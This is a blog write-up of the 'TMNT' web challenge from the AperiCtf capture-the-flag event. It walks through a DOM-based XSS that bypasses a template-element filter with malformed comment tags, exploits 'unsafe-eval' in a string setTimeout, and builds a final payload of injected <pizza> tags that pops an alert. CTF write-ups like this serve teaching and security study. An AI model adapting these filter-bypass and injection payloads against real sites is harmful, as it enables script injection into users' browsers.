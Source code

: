 ```yaml
---
title: "TMNT"
date: 2019-10-09T16:39:53+02:00
categories:
- write-ups
- AperiCtf
tags:
- web
- xss
keywords:
- web
- xss
coverImage: /images/TMNT/bg.jpg
coverSize: full
coverMeta: in
metaAlignment: center
autoThumbnailImage: false
summary : "Write-up about the TMNT challenge from the AperiCtf"
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| AperiCtf |  TMNT  |  web  |  300 |  6  |

{{< image classes=" center fancybox clear fig-100" src="/images/TMNT/desc.png" thumbnail="/images/TMNT/desc.png" thumbnail-width="50%" thumbnail-height="50%" >}}


# TL;DR

In this challenge we need to trigger an XSS, first we need to bypass the template engine of the browser to insert custom tags in the page. We can then trigger the XSS with some specific tag and use a DOM-based JavaScript injection vulnerability.

# Step 1

This is my first web write-up, I usually prefer popping shell, but this time we will pop some alert boxes ! We are faced with a search bar which display information about some ninja turtles.

{{< image classes=" center clear fig-100" src="/images/TMNT/intro.png"   >}}

In the source code of the page we can see the script {{< hl-text orange >}}main.js{{< /hl-text >}}. 

{{< codeblock lang="javascript"  >}}

//s parameter is the input of the search box
s = new URL(window.location.href).searchParams.get('s');

if (s !== null) {
    desc = '';

    for(var i=0; i<tmnt.length; i++) {
        if(s.includes(tmnt[i]['name'])) {
            desc = tmnt[i].desc;
            name = tmnt[i].name;
            break;
        }
    }
    if (desc !== '') {
        tmp = document.createElement('template'); // Used to filter HTML / JS
        tmp.innerHTML = s.replace(/-->/g, ''); // Double security, we never know
        document.getElementById('data').innerHTML = '<!-- Search : ' + tmp.innerHTML + ' -->' + name + ' : ' + desc;
    } else {
        //Else fail display no result
        [...]
    }
} else {
    //Else fail display no result
    [...]
}
{{< /codeblock >}}

```tmnt``` is an array containing the name and descriptions of the turtles. So first a template is created, then it search for ```-->``` in the input of the user to delete it and finally create some html to add to the page. Indeed, it's reflected on the page:

{{< image classes=" center clear fig-100" src="/images/TMNT/reflected.png"   >}}

My naïve approach was to add ```--!>``` to the beginning of the input since it's a valid closing comment tag and add ```<--``` to the end of my input to close the last part of the comment:

{{< codeblock lang="html">}}
--!> Michelangelo <!--
{{< /codeblock >}}

{{< image classes=" center clear fig-100" src="/images/TMNT/inject.png"   >}}

Some weird things start to happen ! First my closing chevron ```>``` has been encoded in ```&gt;``` but the other chevrons hasn't. Because of that, my opening comment ```<!--``` is useless. And a new closing comment appears out of nowhere. 

In the script a comment is left from the author of the challenge:

{{< codeblock lang="javascript">}}
tmp = document.createElement('template'); // Used to filter HTML / JS
{{< /codeblock >}}

Here is the description of the template tag from mozilla: 

{{< pullquote >}}
[...]
Think of a template as a content fragment that is being stored for subsequent use in the document. While the parser does process the contents of the template element while loading the page, it does so only to ensure that those contents are valid; the element's contents are not rendered, however.
{{< /pullquote >}}

So the template element checks that those contents are valid html. This is the first step, we need to make the template engine fail this verification. After a lot of trying and error I came up with this payload:

{{< codeblock lang="html">}}
<a--!> Michelangelo <!--
{{< /codeblock >}}

It seems really simple but took me some time to figure it out. Here is the result:

{{< image classes=" center clear fig-100" src="/images/TMNT/inject2.png"  >}}

Due to the Content Security Policy ([CSP](https://content-security-policy.com/)) we can't directly inject ```<script>alert('XSS')</script>``` because it will block inline javascript, this also means that we can't use events like onload, onerror, onclick... CSP can be found in the source of the page:


{{< codeblock lang="html">}}
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; script-src 'self' 'unsafe-eval';">
{{< /codeblock >}}

This [website](https://csp-evaluator.withgoogle.com/) allow you to test your CSP:

{{< image classes=" center clear fig-100" src="/images/TMNT/csp.png" thumbnail="/images/TMNT/csp.png"  >}}

The yellow warning tells us that {{< hl-text orange >}}unsafe-eval{{< /hl-text >}} could allow execution of code injected into the DOM API, seems promising. 


# Step 2

A second javascript file is loaded in the page, {{< hl-text orange >}}pizza.js{{< /hl-text >}}.

{{< codeblock "pizza.js" "javascript">}}
var user = {'name': 'Michelangelo', 'pizza_stock': 0, 'eated_pizza' : 0};

function wait(ms){
   var start = new Date().getTime();
   var end = start;
   while(end < start + ms) {
     end = new Date().getTime();
  }
}

window.onload = function(e){ 

	p = document.querySelectorAll("pizza");

	for(var i = 0; i < p.length; i++) {
		if (p[i].getAttribute('cook') !== null) {
			if (p[i].getAttribute('nb') !== null) {
				user.pizza_stock += parseInt(p[i].getAttribute('nb'), 10);	
			} else {
				user.pizza_stock += 1;
			}
		} else if (p[i].getAttribute('user') !== null) {
			user.name = p[i].getAttribute('user');
		} else if (p[i].getAttribute('eat') !== null && p[i].getAttribute('nb') !== null) {
			if (parseInt(p[i].getAttribute('nb'), 10) <= user.pizza_stock) {
				user.eated_pizza += parseInt(p[i].getAttribute('nb'), 10);
				user.pizza_stock -= parseInt(p[i].getAttribute('nb'), 10);
			} else {
				console.log("Not enough pizza :'(");
			}
			if (user.eated_pizza === 1337) {
				console.log(user.name + " can't eat as much as he wants, he needs to take a break...");
				setTimeout('user.eated_pizza = 0; console.log("' + user.name + ' digested everything!")', 3000);
			}
		}
	}
}
{{< /codeblock >}}

At the end of the file there is an interesting line:

{{< codeblock lang="javascript">}}
setTimeout('user.eated_pizza = 0; console.log("' + user.name + ' digested everything!")', 3000);
{{< /codeblock >}}

If we control the parameter ```user.name``` we could potentially execute some javascript code, for example:

{{< codeblock lang="javascript">}}
");alert("XSS");console.log("
{{< /codeblock >}}

But to get there we need to set up some pizzas tags with custom parameters to pass into the last ```if```:


{{< codeblock lang="html">}}
<pizza cook=1337 nb=1337></pizza>
<pizza user='");alert("xss");console.log("'></pizza>
<pizza eat=1337 nb=1337></pizza>
{{< /codeblock >}}

So the final payload is:

{{< codeblock lang="html">}}
<a---!>Michelangelo <pizza nb=1337 cook=1337></pizza><pizza user='");alert("xss");console.log("'></pizza><pizza eat=1337 nb=1337></pizza><!--
{{< /codeblock >}}

And boom the XSS:

{{< image classes=" center clear fig-100" src="/images/TMNT/final.gif" >}}


